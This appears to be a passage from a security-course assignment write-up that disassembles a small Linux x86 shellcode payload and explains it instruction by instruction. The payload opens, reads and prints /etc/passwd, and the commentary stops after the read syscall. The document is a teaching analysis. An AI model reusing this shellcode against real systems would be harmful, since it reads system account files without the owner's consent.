 # Solution

If we dump the nasm code from the payload, here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

       00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, 
                                            ; in this case, /etc/passwd).
    
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG "Pop Ebx")
       00000008  31C9              xor ecx,ecx ; Clearing out ecx, now is 0
       0000000A  CD80              int 0x80 ; int open(const char *pathname, int flags); open(/etc/passwd, 0) 
       where EAX is 5, EBX is etc/passwd and ECX is 0
       0000000C  89C3              mov ebx,eax ; Eax is set to ebx
       0000000E  B803000000        mov eax,0x3  ; Eax is set to 3 <=> Syscall, function 
       00000013  89E7              mov edi,esp
       00000015  89F9              mov ecx,edi
       00000017  BA00100000        mov edx,0x1000
       0000001C  CD80              int 0x80
